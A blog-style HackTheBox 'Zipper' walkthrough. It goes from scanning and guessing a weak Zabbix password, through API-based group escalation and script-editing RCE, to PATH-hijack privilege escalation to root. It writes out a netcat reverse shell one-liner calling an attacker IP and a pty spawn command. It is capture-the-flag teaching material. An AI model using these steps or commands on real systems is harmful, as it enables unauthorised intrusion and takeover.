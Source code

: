 ```yaml
---
layout: post
title: HackTheBox - Zipper
categories: htb
permalink: /htb-zipper
---
```


![BoxInfo]({{ site.baseurl }}/assets/htb-images/zipper/infocard.png)

Starting off with a nmap scan to determine open ports, thus a potential attack vector!

![NmapScan]({{ site.baseurl }}/assets/htb-images/zipper/NmapScan.jpg)

Nmap showed me that port 80 and 22 are open so I was going to access the web server, but since the header of the nmap for port 80 output says: “It Works” I assumed that I will see the default page of apache, so I went straight to use dirbuster and check for folders and files on the webserver!

![dirsearch]({{ site.baseurl }}/assets/htb-images/zipper/dirsearch.jpg)

Running dirbuster on the server, I found an interesting folder “/zabbix”.So when I entered it, it prompted me with a login page and more interestingly, I was able to login as guest user, which would be very helpful when I enumerate the web app to try to find a potential vulnerability, or potential username or password. After some inspection of the web app, I found that the developer had made a small writing mistake which let me determine that the mistake could be a potential username. The mistake which the developer made was that he accidently typed “Zapper” instead of Zipper which gave me the clue. I found this in the “Trigger” section of the web app and by tweaking the options I was able to find it.

![Zapper-Mistake]({{ site.baseurl }}/assets/htb-images/zipper/Zapper-Mistake.jpg)

Now I went to try and guess the username and password, so that I can login to the Zabbix web app and enumerate more and try to find a way to get into the system. After several attempts to guess the password, I was able to login as user Zapper.

```
#User Zapper credentials
Username: Zapper
Password: zapper
```

When I tried to login with the credentials, the web app output showed me that the GUI was disabled and after a short search in the zabbix documentation I saw that I can use the API of Zabbix, “api_jsonrpc”, to enable the web gui and proceed forward. I wrote a simple python script to enable that function.

![WEBGUIDisabled]({{ site.baseurl }}/assets/htb-images/zipper/WEBGUIDisabled.jpg)

Here is the script I wrote:

![getcookiecode2]({{ site.baseurl }}/assets/htb-images/zipper/getcookiecode2.png)

The first part of the code shows that I will connect as user Zapper and will get cookie for this user, notice that “auth” is set to None because I didn't know the cookie yet, but when I run the script it will show it to me. The second part of the code is where the script will tell Zabbix program to add user Zapper in the “Zabbix Super Admin” group, which will allow me to get access to the web GUI.

![enableguicode]({{ site.baseurl }}/assets/htb-images/zipper/enableguicode.jpg)

After I got the cookie from the function “get_auth”, I  had to place it where “auth”:"" line is in the function “get_wgui” which in the second part of the code will enable the web GUI. This will tell the Zabbix Web app that we are logging in as Zapperwho will be placed in the zabbix super admin group. So lastly, once the the python script is ran, the output will be this.

![enableguiloginin]({{ site.baseurl }}/assets/htb-images/zipper/enableguiloginin.jpg)

After I logged in, I noticed two new options in the main page, from which, one of them was the Administration section! I enumerated the administration section and that showed me that user zapper is able to write and execute scripts, so I thought this could lead to a RCE. I saw that there was a PING script and I edited it !The scripts section was under:
> Administration->Scripts->Ping

```
#Reverse shell command
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 1234 >/tmp/f
```

After I editted the Ping script, I went again to the “Trigger” section and I clicked on Zabbix, which showed me a menu to execute a script, I pressed on Ping and I got reverse shell !

![revshell]({{ site.baseurl }}/assets/htb-images/zipper/revshell.jpg)

When I got the reverse shell, I noticed that the hostname of the machine is a bit weird, so I thought I may have a reverse shell in a docker instance. Now, I had to escape it and I also noticed that when I set the code execution to run through zabbix server, I get a reverse shell in docker, but when I set the code to be executed as zabbix agent, I get a reverse shell in the main system but its very unstable, and I am kicked out in 5 - 10 seconds. I had to think of any way to escape that and get a stable connection in the main system.So I thought why don't I try to upgrade it to TTY shell using python and see if the shell will stay stable. Because the machine didn't have python 2 install, I had to use python 3.

```
#Python tty shell spawn command
$ python3 -c ‘import pty;pty.spawn("/bin/bash")'
```

Luckily, this helped me to keep my shell open and stable. I just had to copy & paste the command quckily before the shell died. So to get a stable shell in the main system outside docker, I had to do the same for docker.

![stableshell]({{ site.baseurl }}/assets/htb-images/zipper/stableshell.jpg)

Now it was time to enumerate what users are available on the system. There was another user available in the system which is "zapper".

![zapperuser]({{ site.baseurl }}/assets/htb-images/zipper/zapperuser.jpg)

I had to escalate to zapper user before I could get root ! I searched in the system, but I wasn't able to find anything else except a bash script called “backup.sh” in /home/zapper/utils/. This script gave me a password to work with after running "cat" command on it. The script was only doing a backup of the files and scripts of zabbix web app and was saving them as 7z file in /backups/ folder. I tried to find anything interesting in the folder but there was nothing even after extracting the 7z file, so I thought I could try to login as user zapper with `su -l` using the password which I found in backup.sh script. This worked !

![zappershell]({{ site.baseurl }}/assets/htb-images/zipper/zappershell.jpg)

I now checked for the SSH keys of user zapper, I grabbed them and logged in with SSH. Doing another enumerating of the box I found that in folder utils in /home/zapper/, there was a script called “zabbix-service” which was owned by user root and had SUID. This meant that I would be able to run it as root without having to use sudo. This was interesting ! Running cat on the file showed me gibberish, so I used strings command instead. This showed me something interesting.

![stringszabbix-service]({{ site.baseurl }}/assets/htb-images/zipper/stringszabbix-service.jpg)

The script was actually starting the zabbix-agentd.service using systemctl. How could I exploit this ? Well, the other interesting part was that in the script, systemctl wasn't set with its' full path, so I could exploit that by setting a system variable. So now systemctl would be seen in 2 different folders and run twice by the script because it wouldn't know which path exactly to use, so it will use both.
I created a file “systemctl” in the folder /home/zapper/utils/ and wrote inside “/bin/bash” and saved the file. When I exported the path to systemctl file which I created in /home/zapper/utils/, I set the permissions of the newly created file to 777 and checked to see if the system could see the file in the home folder of zapper. Now I just had to run the script and get root !

![roottaken]({{ site.baseurl }}/assets/htb-images/zipper/roottaken.png)

That's the box Zipper from HackTheBox !
